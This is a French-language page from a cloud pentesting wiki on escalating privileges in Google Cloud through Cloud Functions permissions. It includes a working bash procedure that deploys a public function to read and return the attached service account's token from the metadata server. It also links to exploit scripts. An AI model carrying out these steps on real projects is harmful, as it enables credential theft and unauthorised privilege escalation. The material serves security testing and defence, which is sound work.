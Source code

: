 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Plus d'informations sur les Cloud Functions :

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaquant avec ces privilèges peut **créer une nouvelle Cloud Function avec du code arbitraire (malveillant) et lui attribuer un Service Account**. Ensuite, il peut récupérer le token du Service Account à partir des métadonnées pour élever ses privilèges.\
Certains privilèges pour déclencher la fonction peuvent être nécessaires.

Des scripts d'exploitation pour cette méthode peuvent être trouvés [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) et [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) et le fichier .zip préconstruit peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaquant avec ces privilèges peut **modifier le code d'une Function et même modifier le service account attaché** dans le but d'exfiltrer le token.

{% hint style="danger" %}
Pour déployer des cloud functions, vous aurez également besoin de permissions actAs sur le service account de calcul par défaut ou sur le service account utilisé pour construire l'image.
{% endhint %}

Certains privilèges supplémentaires comme la permission `.call` pour la version 1 des cloudfunctions ou le rôle `role/run.invoker` pour déclencher la fonction peuvent être nécessaires.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Si vous obtenez l'erreur `Permission 'run.services.setIamPolicy' denied on resource...`, c'est parce que vous utilisez le paramètre `--allow-unauthenticated` et que vous n'avez pas suffisamment de permissions pour cela.
{% endhint %}

Le script d'exploitation pour cette méthode peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Avec cette permission, vous pouvez obtenir une **URL signée pour pouvoir télécharger un fichier dans un bucket de fonction (mais le code de la fonction ne sera pas modifié, vous devez toujours le mettre à jour)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Je ne suis pas vraiment sûr de l'utilité de cette seule autorisation du point de vue d'un attaquant, mais c'est bon à savoir.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Donnez-vous l'un des précédents privilèges **`.update`** ou **`.create`** pour escalader.

### `cloudfunctions.functions.update`

Avoir uniquement des autorisations **`cloudfunctions`**, sans **`iam.serviceAccounts.actAs`**, vous **ne pourrez pas mettre à jour la fonction DONC CE N'EST PAS UN VALID PRIVESC.**

### Autorisations d'écriture sur le bucket

Vous pourriez penser qu'un attaquant avec des **autorisations d'écriture sur le bucket** où le code des Cloud Functions est stocké pourra **modifier le code en écrasant** le `function_code.zip` et ensuite faire en sorte que la fonction **exécute du code arbitraire**.

{% hint style="success" %}
**Cependant, ce n'est pas vrai, simplement écraser le code à l'intérieur du bucket ne modifiera pas le code qui est exécuté.**
{% endhint %}

## Références

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
